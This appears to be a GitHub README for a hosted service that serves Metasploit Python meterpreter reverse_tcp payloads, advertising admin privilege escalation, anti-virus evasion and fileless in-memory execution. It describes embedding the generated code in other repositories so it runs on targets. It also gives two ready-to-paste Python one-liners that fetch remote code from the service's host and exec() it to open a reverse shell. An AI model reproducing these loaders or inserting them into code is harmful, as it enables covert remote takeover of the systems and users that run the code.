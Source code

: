 # easysploit-server
## Overview
Easysploit Server is a tool designed to generate, customize, and manage Metasploit reverse_tcp payloads. It simplifies exploitation with built-in admin privilege escalation, and AV evasion capabilities, supporting fileless execution for fast, undetectable operations.
Easysploit server is now working on https://easysploit.rocknroll17.com.

## Features
- Custom Reverse_TCP Payloads
- Admin Privilege Escalation
- Fileless Execution (Memory-based)
- Anti-Virus Evasion

## Scenario
1. **Generate Exploit Code using easysploit-client**  
Use easysploit-client to generate the exploit code. The generated code requests a payload from easysploit-server and executes it in a fileless manner.
2. **Embed the Exploit Code**  
Insert the generated code into other repositories or Python code to be executed on the target system.
3. **Execute on Target System**  
When the code is executed on the target system, it sends a request to easysploit-server for the payload.
4. **Fileless Execution**  
The easysploit-server delivers the payload and executes it filelessly in memory without leaving traces on the disk.

## Installation
You don't need to run this server.
It is already working on https://easysploit.rocknroll17.com.

## Usage
### Available Endpoints
1. **Standard python Reverse TCP Payload**
Endpoint: `/python/meterpreter/reverse_tcp`
2. **Admin Privilege Reverse TCP Payload**
Endpoint: `/python/meterpreter/reverse_tcp/admin`

### Request Body
Both endpoints require the same JSON payload:
```
{
  "LHOST": "Attacker's IP",
  "LPORT": Attacker's listening port
}
```

## Example Code
Insert this code where you gonna exploit.
1. **Standard python Reverse TCP Payload**
```
import urllib.request, json
exec(urllib.request.urlopen(urllib.request.Request("https://easysploit.rocknroll17.com/python/meterpreter/reverse_tcp", data=json.dumps({"LHOST": "Attacker's IP", "LPORT": Attacker's listening port}).encode(), headers={'Content-Type': 'application/json'})).read().decode())
```
2. **Admin Privilege Reverse TCP Payload**
```
import urllib.request, json
exec(urllib.request.urlopen(urllib.request.Request("https://easysploit.rocknroll17.com/python/meterpreter/reverse_tcp/admin", data=json.dumps({"LHOST": "Attacker's IP", "LPORT": Attacker's listening port}).encode(), headers={'Content-Type': 'application/json'})).read().decode())
```
